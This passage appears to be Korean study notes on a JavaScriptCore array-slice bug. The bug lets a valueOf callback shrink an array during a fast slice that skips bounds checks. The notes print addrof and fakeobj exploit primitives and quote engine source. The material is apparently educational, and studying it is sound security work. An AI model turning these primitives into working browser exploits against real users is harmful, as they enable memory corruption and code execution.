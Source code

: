 ```
    }};

    var b = a.slice(0, hax);
    return Int64.fromDouble(b[3]);
}

function fakeobj(addr) {
    var a = [];
    for (var i = 0; i < 100; i++)
        a.push({});     // 배열의 타입이 반드시 ArrayWithContiguous 여야 함
    addr = addr.asDouble();

    var hax = {valueOf: function() {
        a.length = 0;
        a = [addr];
        return 4;
    }};

    return a.slice(0, hax)[3];
}

```

중요 포인트는 `arrayProtoFuncSlice` 함수로 `fastSlice` 시에 추가적인 bound 검사를 하지 않는 것이 첫번째 드래서 해당과 같이 poc 가 나옴.
그 다음이 `valueOf` 개념인데 여기서 객체를 숫자(primitive types)로 변환하는 규칙이 흥미롭다.
객체에 “valueOf” 라는 호출 가능한 속성 property이 있는 경우 이 메소드를 호출하여 결과가 원시 값(primitive value)인 경우 이 값을 그대로 사용한다.

```
Math.abs({valueOf: function() { return -42; }});
// 42

```

그래서 다음과 같이 결과가 나온다. 이 부분은 좀 더 보면서 디버깅 필요하니깐 [링크](https://null2root.github.io/blog/2019/04/06/Attacking-JavaScript-Engines-kor.html#23--valueof%EB%A1%9C-%EA%B3%B5%EA%B2%A9%ED%95%98%EA%B8%B0) 참고하자.

+) 좀 추가로 정리.
`arrayProtoFuncSlice` 함수 호출 시 범위 지정을 위해 전달된 파라미터(숫자 객체)는 `argumentClampedIndexFromStartOrEnd` 함수 내에서 primitive 타입 으로 변환된다. 또한 이 함수 안에서 인자값의 범위가 (0, length)로 고정된다.

```
    JSValue value = exec->argument(argument);
    if (value.isUndefined())
        return undefinedValue;

    double indexDouble = value.toInteger(exec);  // 타입 변환이 발생하는 부분
    if (indexDouble < 0) {
        indexDouble += length;
        return indexDouble < 0 ? 0 : static_cast<unsigned>(indexDouble);
    }
    return indexDouble > length ? length :
                                  static_cast<unsigned>(indexDouble);

```
